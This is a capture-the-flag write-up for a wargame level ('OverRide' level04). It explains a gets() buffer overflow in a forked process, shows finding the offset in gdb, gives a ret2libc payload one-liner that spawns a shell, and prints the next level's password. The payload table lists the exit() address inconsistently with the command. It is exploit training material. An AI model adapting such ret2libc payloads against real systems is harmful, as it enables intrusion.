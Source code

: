 # Ret2libc again x2

## Program summary
In this level we are provided with a program which takes a ShellCode as input.

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
```

Basically this program launches a **`fork()`**, and in this process we have a **`gets()`** for the input of ShellCode.

## Vulnerability
Since the stack will be popped in a classic way, we can use a ret2libc exploiting gets which has no forward and backward checks

## Attack design
In order to calculate the offset we will do as usual, inject the pattern and calculate it, however we will need to set a special option in order to access the child correctly: **`set follow-fork-mode child`**

```
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04
[New process 2131]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2131]
0x41326641 in ?? ()
```

Here is the payload that we will inject :

B * 156 -> ***OFFSET***
\xd0\xae\xe6\xf7 -> **`system()`** addr
\xd0\xae\xe6\xf7 -> **`exit()`** addr
\xec\x97\xf8\xf7 -> **`"/bin/sh"`** string addr

```py
python -c "print 'B' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" > /tmp/boom
```

```
level04@OverRide:~$ cat /tmp/boom - | ./level04
Give me some shellcode, k
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

> Flag : `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`
